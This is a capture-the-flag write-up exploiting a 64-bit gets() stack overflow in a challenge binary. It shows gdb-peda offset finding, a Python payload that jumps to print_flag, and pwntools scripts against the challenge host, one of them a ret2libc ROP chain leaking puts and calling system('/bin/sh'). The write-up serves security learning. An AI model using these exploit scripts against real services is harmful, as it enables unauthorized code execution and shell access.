





## Parsons CTF Day 23: x64 BOF

A vulnerable application is hosted over a specific port and address. We just need to make it print a flag. We aren't trying to get a shell. Which is honestly easier, but I go over my attempt to try and get a shell as well. I say my attempt, because even though I'm unsuccessful, I believe it has something to do with how the file is hosted over AWS...

Anyways we are given the binary: day23_original

```bash
#file
day23_original: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=188533bbad38a2880c4edb46db3aa281375d30ca, not stripped
```




Giving it a test run we get:



We could try to fuzz it, but before we waste anymore time, let's go over what we know and statically analyze it first.

So here's what we know:

1. NX is enabled = can't store/run shellcode in bufferspace
2. It's an elf, 64bit, not stripped
3. This means this is ripe for a ROP chain/gadget to point to the flag


### Disassembling in Ghidra


Main function:




Obtain function:




Ok so now we know the vulnerable function here is gets(), but what's funny is that there **isn't an actual passphrase checker**, it's just a gets, then printing...ok so how do we get the flag?

Well if we just search for the keyword: "flag" or look above the obtain secret code function, we find this function:



Obviously the flag itself has been stripped out for the sake of this ctf.

So the answer is to overflow the gets() function and make it point to the print flag function!

Let's take a note of the address location for the print_flag function: `0x0040068c`

### Overflowing the gets()

First clone and install the gdb-peda repo: https://github.com/longld/peda

This is a great tool for combining python with gdb for quickness and efficiency

```bash
gdb day23_original

#create the pattern
gdb-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
gdb-peda$ cat in.txt
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%ygdb-peda$ 

#now run it to overflow
gdb-peda$ r < in.txt 
Starting program: /home/kali/Documents/parsons_ctf/bof/day23_original < in.txt
Psttt...what's the secret code? Computing....

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7ed3ed3 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x6022a0 ("Psttt...what's the secret code? Computing....\n")
RDI: 0x7ffff7fa6670 --> 0x0 
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe038 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%"...)
RIP: 0x4006f3 (<obtain_secret_code+71>: ret)
R8 : 0x2 
R9 : 0xa ('\n')
R10: 0x7ffff7fef2f0 (<strcmp+4784>:     pxor   xmm0,xmm0)
R11: 0x246 
R12: 0x400560 (<_start>:        xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4006e8 <obtain_secret_code+60>:    call   0x400500 <puts@plt>
   0x4006ed <obtain_secret_code+65>:    mov    eax,0x0
   0x4006f2 <obtain_secret_code+70>:    leave  
=> 0x4006f3 <obtain_secret_code+71>:    ret    
   0x4006f4:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4006fe:    xchg   ax,ax
   0x400700 <__libc_csu_init>:  push   r15
   0x400702 <__libc_csu_init+2>:        mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe038 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%"...)
0008| 0x7fffffffe040 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA"...)
0016| 0x7fffffffe048 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G"...)
0024| 0x7fffffffe050 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%"...)
0032| 0x7fffffffe058 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A"...)
0040| 0x7fffffffe060 ("AJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4"...)
0048| 0x7fffffffe068 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%"...)
0056| 0x7fffffffe070 ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004006f3 in obtain_secret_code ()
gdb-peda$ 

```

Sweet, we got a crash, but not because we overwrote RIP with an invalid address. In fact we don’t control RIP at all. The maximum address size is 0x00007FFFFFFFFFFF. We’re overwriting RIP with a non-canonical address which causes the processor to raise an exception. So really the goal is to find the offset with which to overwrite RIP with a canonical address. 

Let’s find the offset:

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe038: 0x41304141

gdb-peda$ pattern_offset 0x41304141
1093681473 found at offset: 40
```


### Getting the flag

Now that we have control over RIP, we can write a final function to create the input:

```python
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*40                      # offset to RIP

#Pack function will convert the address
#'<' is little endian
#'Q' is unsigned long long
buf += pack("<Q", 0x0040068c)   # overwrite RIP with address of the print_flag
buf += "C"*290                      # padding to keep payload length at 400 bytes

f = open("in.txt", "w")
f.write(buf)
```

Now pass that into GDB peda and we get the function to print:

```bash
gdb-peda$ r < in.txt 
Starting program: /home/kali/Documents/parsons_ctf/bof/day23_original < in.txt
Psttt...what's the secret code? Computing....

How did you do this? Well, I guess you deserve the flag: XXXXXXXXXXXXX 
[Inferior 1 (process 52477) exited normally]
Warning: not running
```


We win!


### Using PWN Tools

```python
#!/usr/bin/env python
from pwn import *

elf = ELF("./day23_original")
p = remote("2021moctfday23.parsonscyber.com", 1234)

payload = [
	b"A"*40,
	#b"BBBB"
	p64(elf.symbols['print_flag'])
]

payload = b"".join(payload)
p.sendline(payload)

p.interactive()
```


### My attempt to get a shell using PWN Tools

```python
#!/usr/bin/env python

from pwn import *
from pwnscripts import * 


offset = 40
context.arch = 'amd64'
context.libc_database = 'libc-database'


elf = ELF("./day23_original")
p = remote("2021moctfday23.parsonscyber.com", 1234)

rop = ROP(elf)
rop.call(elf.symbols["puts"],[elf.got['puts']])
#\x90\xa5\xdc\x94\x7f
rop.call(elf.symbols["obtain_secret_code"])

#p.recv()

payload = [
	b"A"*offset,
	#b"BBBB"
	#p64(elf.symbols['print_flag'])
	rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)


#puts = u64(p.recvuntil("").rstrip().ljust(8, b"\x00"))
puts = u64(p.recv().rstrip().ljust(8, b"\x00"))
#puts = (p.recv())
print("puts found at: ")
print(hex(puts))
#7fd4b880f590

libc = ELF("libc6-i386_2.28-0ubuntu1_amd64.so")
libc.address = puts - libc.symbols["puts"]

print("libc address: ")
print(libc.address)

rop = ROP(libc)
rop.call("puts", [next(libc.search(b"/bin/sh\x00"))])
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
rop.call("exit")

#rop.system(next(libc.search(b'/bin/sh\x00')), 0, 0)

payload = [
	b"A"*offset,
	#b"BBBB"
	#p64(elf.symbols['print_flag'])
	rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

p.interactive()
```

